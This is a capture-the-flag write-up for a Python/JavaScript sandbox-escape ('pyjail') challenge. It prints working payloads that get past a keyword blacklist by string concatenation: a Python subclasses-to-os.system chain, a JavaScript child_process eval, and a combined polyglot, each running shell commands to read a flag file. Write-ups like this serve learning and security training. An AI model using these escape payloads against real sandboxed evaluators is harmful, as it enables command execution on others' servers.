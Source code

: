 ## pyjsjail

Category: Misc

probably my favourite pyjail solve  
1 month of screwing around with polyglot golfing in 2024 paid off apparently

Inspecting the server source code, we see that the flag file is stored in the same directory as the backend code.

<img src="images/dockerfile.png" width=300>

The server runs our payload through two interpreters - Python and JavaScript, and only returns the flag if our payload successfully prints the flag in both languages while bypassing the blacklist.  

<img src="images/langs.png" width=400>
<img src="images/eval.png" width=500>

To tackle this challenge, we can first craft separate payloads for each language, before combining them into a polyglot oneliner later on.  

The Python payload is relatively straightforward. To gain access to `os`, we use the standard method of accessing Python subclasses through `().__class__.__base__.__subclasses__()`. We then filter out a specific class that contains an `os` module import, which we can use to read the flag file through a `system` call.  

The blacklist can be easily bypassed through a `getattr` call and string concatenations.

```python
getattr([cls for cls in ().__class__.__base__.__subclasses__() if 'o'+'s._wrap_close' in str(cls)][0].__init__.__globals__['sys'].modules['o'+'s'], 'syste'+'m')('cat fla'+'g.txt')
```

The JavaScript payload is similarly straightforward, albeit somewhat tedious.  

`eval` is surprisingly not included in the blacklist, hence, we can insert a oneliner to read the flag file into an `eval` statement, bypassing the blacklist through some string concatenations.

```javascript
eval("req"+"uire(\"child_p"+"rocess\").exec(\"cat fla\"+\"g.txt\").stdout.pipe(pr"+"ocess.stdout)")
```

To combine both payloads into a singular polyglot payload, we have to make a few tweaks.  

First, in our solve script, we can declare both payloads as string variables. We then preceed the JavaScript payload with `lambda`, before escaping all quotes and backslashes to ensure proper string representation of our payload.  

```python
js = 'lambda:eval(\"req\"+\"uire(\\"child_p\"+\"rocess\\").exec(\\"cat fla\\"+\\"g.txt\\").stdout.pipe(pr\"+\"ocess.stdout)\")'

py = "getattr([cls for cls in ().__class__.__base__.__subclasses__() if 'o'+'s._wrap_close' in str(cls)][0].__init__.__globals__['sys'].modules['o'+'s'], 'syste'+'m')('cat fla'+'g.txt')"
```

We can then combine both payloads as shown below.

```python
f"{js};0//{py}"
```

In JavaScript, `lambda` will be treated as a label, and will not affect our code in any way. The double slash will serve as a comment to prevent our Python payload from interfering.

```javascript
lambda: [js payload]; 0 // [python payload]
```

In Python, since our JavaScript payload is essentially an `eval` call inside a `lambda`, it will be ignored. The double slash in this case will now serve as a quotient operator and cause the Python payload portion to be evaluated.

```python
lambda: [js payload]; 0 // [python payload]
```

After sending a post request with our payload to the challenge endpoint, we get our flag. (i'm currently writing this a week after the ctf has ended and i lost the actual flag)

<img src="images/flag.png" width=600>
